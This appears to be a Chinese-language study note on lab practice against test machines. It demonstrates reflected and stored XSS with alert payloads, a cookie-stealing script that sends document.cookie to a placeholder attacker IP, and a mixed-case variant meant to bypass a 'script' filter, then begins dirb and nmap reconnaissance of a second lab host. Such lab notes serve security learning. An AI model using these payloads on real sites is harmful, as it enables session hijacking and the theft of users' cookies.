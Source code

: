 下js code
```
<script>alert("call 911")</script>
```
![](https://i.imgur.com/T3rDDKJ.png)
![](https://i.imgur.com/oOGulM2.png)
```
<script>alert(document.cookie)</script>
```
![](https://i.imgur.com/191wpbd.png)
![](https://i.imgur.com/0T1ttyT.png)

從user那邊偷到訊息傳到攻擊者端
監聽80 port
輸入js code 連到攻擊者IP回傳cookie
```
<script>new image().src="http://ip/output="+document.cookie;</script>
```
![](https://i.imgur.com/Q0T1jW9.png)


<中等難度>
過濾掉script，則可以使用大小寫來混淆他
ex.
```
<sCripT>new image().src="http://ip/output="+document.cookie;</sCripT>
```


![](https://i.imgur.com/4Y4hqwD.png)

![](https://i.imgur.com/e26A9bc.png)

```

```

XSS stored

![](https://i.imgur.com/gJi4QzR.png)

![](https://i.imgur.com/QEBAcB9.png)



## 靶機測試2(192.168.0.182)
1. 蒐集資料
使用dirb蒐集網頁資料

使用nmap -A 查看該主機有甚麼Port是開啟的
![](https://i.imgur.com/M19pxyW.png)
其中可以朝samba掃描/攻擊
(samba的洞挺多的)
